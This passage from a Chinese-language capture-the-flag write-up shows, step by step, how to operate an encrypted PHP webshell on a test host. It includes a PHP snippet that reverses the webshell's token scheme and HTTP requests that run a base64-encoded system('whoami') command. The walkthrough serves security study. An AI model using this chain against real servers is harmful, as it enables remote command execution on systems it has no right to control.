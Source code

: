 ```php
$t = $_POST['token'];  //已知的 $t 的值
$r = $_POST['out'];  //"c3lzdGVtKCd3aG9hbWknKTsg" 已知的 $r 的值

// 解密已知的 $r 值得到 $v
$v = decrypt_token($r, $t);
echo base64_encode($v);
```

通过编写这么一段代码，调换了一下顺序，就可以通过 `$t=>$_SESSION['token']` 和 `$r=>c3lzdGVtKCd3aG9hbWknKTsg`，拿到参数 `$v`

至此，整条利用链已经清晰，我们来复现一下吧：

#### 12.3.1 第一步、密钥协商得到 Token

对 WebShell 进行发包，`Token` 随便填啥都行

```http
GET /muma.php HTTP/1.1
Host: test.ctf.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Token: 1
Content-Length: 0
```

在返回包中可以看到服务器生成的 `Token` 值和 `Cookie` 值

![样例三 -1.png](assets/1698896037-126330becec8e3a132ab7ab44c8a3d1a.png)

#### 12.3.2 第二步，得到 X-CSRF-TOKEN

假设我们想执行系统命令 `whoami`，PHP 代码就是 `system('whoami');`，对其进行 Base64 加密后的字符串 `c3lzdGVtKCd3aG9hbWknKTsg`，当然你想执行其他的命令也行哈哈

```http
POST /decode.php HTTP/1.1
Host: test.ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0

token=a2b3fca92539495e&out=c3lzdGVtKCd3aG9hbWknKTsg
```
